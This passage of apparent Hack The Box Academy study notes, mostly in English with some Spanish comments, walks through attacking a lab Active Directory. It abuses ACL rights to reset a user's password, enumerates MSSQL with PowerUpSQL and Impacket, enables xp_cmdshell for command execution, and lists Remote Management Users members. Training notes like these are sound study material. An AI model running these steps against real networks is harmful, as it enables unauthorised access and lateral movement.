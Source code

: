 
We can use our ACL rights to authenticate with the wley user, change the password for the damundsen user and then authenticate with the target using a tool such as PowerUpSQL, which has a handy command cheat sheet. Let's assume we changed the account password to SQL1234! using our ACL rights. We can now authenticate and run operating system commands.

First, let's hunt for SQL server instances.

#### Enumerating MSSQL Instances with PowerUpSQL

```
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain

 Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```



#### Enumerate in linux (mssqlclient.py)

We can also authenticate from our Linux attack host using mssqlclient.py from the Impacket toolkit.

```
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
help

```

We could then choose enable_xp_cmdshell to enable the xp_cmdshell stored procedure which allows for one to execute operating system commands via the database if the account in question has the proper access rights.

```
enable_xp_cmdshell

```

Para el ejercicio

```
Get-ADGroupMember -Identity "Remote Management Users"
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-DC01 -GroupName "Remote Management Users"
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"


```

Explicacion 

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/412e04f3-33f5-4864-b2df-d99bf7cff622)

En esa imagen checamos el grupo de RPD local nos muestra que todos lo susuarios del dominio pueden hacer RDP. Aqui lo que se entiende es que este es un jump server.


## Acceso privilegiado
